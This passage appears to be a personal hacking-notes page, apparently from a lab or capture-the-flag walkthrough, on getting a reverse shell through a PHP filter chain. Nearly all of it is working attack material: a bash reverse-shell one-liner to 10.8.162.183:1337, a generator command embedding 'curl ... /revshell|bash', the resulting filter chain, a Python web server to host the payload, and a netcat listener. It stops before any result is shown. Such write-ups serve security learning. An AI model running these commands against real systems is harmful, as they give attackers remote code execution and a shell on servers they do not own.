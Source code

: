 ## Reverse Shell

https://exploit-notes.hdks.org/exploit/web/security-risk/php-filters-chain/

For the [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) first we create a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) [Script](../../3%20-%20Tags/Hacking%20Concepts/Script.md) named **"revshell"** in local machine.

```
bash -i >& /dev/tcp/10.8.162.183/1337 0>&1

```

Then create a chain using a generator.  
Replace the [IP address](../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) with your own.

```Linux
└─$ # `<?= ?>` is a shorthand for `<?php echo ~ ?>`
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.8.162.183/revshell|bash` ?>'

[+] The following gadget chain will generate the following code : <?= `curl -s -L 10.8.162.183/revshell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjguMTYyLjE4My9yZXZzaGVsbHxiYXNoYCA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-
```

We need to start a web [Server](../../3%20-%20Tags/Hacking%20Concepts/Server.md) with [Python](../../3%20-%20Tags/Programming%20Languages/Python.md) that hosts the shell script, and also start a listener for receiving the reverse connection using [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) :

```
└─$ sudo python3 -m http.server 80     
[sudo] password :
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

```
└─$ nc -lvnp 1337      
listening on [any] 1337 ...
```

Now we insert the created chain in the url :

<img src="../../Flameshots/a799d8f7be346af16bb877ab2ee69646.png" alt="a799d8f7be346af16bb877ab2ee69646.png" width="319" height="175" class="jop-noMdConv">

Now we should have the shell :
